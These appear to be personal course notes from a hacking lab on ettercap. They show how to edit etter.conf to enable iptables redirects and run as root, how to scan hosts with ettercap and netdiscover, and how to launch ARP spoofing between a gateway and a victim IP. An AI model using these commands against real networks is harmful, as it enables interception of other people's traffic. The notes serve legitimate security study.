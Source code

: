 	   #redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
	   #redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"

	# pendant for IPv6 - Note that you need iptables v1.4.16 or newer to use IPv6 redirect
	   #redir6_command_on = "ip6tables -t nat -A PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
	   #redir6_command_off = "ip6tables -t nat -D PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"

We need to remove all the hashes because we are goonna use iptables. So It Look Like :

	   redir_command_on = "iptables -t nat -A PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
	   redir_command_off = "iptables -t nat -D PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"

	# pendant for IPv6 - Note that you need iptables v1.4.16 or newer to use IPv6 redirect
	   redir6_command_on = "ip6tables -t nat -A PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
	   redir6_command_off = "ip6tables -t nat -D PREROUTING -i %iface -p tcp -d %destination --dport %port -j REDIRECT --to-port %rport"
[ here we modified both iptables and ip6tables. In tuutorial, modified only iptables because we use only iptables ]

Then we need to modify one thing also:
	[privs]
	ec_uid = 65534                # nobody is the default
	ec_gid = 65534                # nobody is the default
Make this id to 0:
	[privs]
	ec_uid = 0                # nobody is the default
	ec_gid = 0                # nobody is the default
	
▶️> ettercap -Tq  ///  [-Tq is text and quite mode, /// makes the tool run without specifying any targets, so it automatically scan all the hosts]

[ sudo netdiscover -r 192.168.1.0/24 this will also scan for host -  just put for remembering our previous lectures ]

[sudo netdiscover -r 10.0.2.0/24 -PN  (active scan)]  [sudo netdiscover -p -r 10.0.2.0/24 -PN]

Now in ettercap terminal, its an interactive session we can just press h for help and oter options as well.

Let's Do an ARP Spoofing with ettercap:

▶️> ettercap -Tq -M arp:remote -i eth0 /10.20.215.1// /10.20.215.9//[ -M is the mode and -i is our interface to sniff on,  first ip is our gateway or router ip and second one is the victim's ip ]
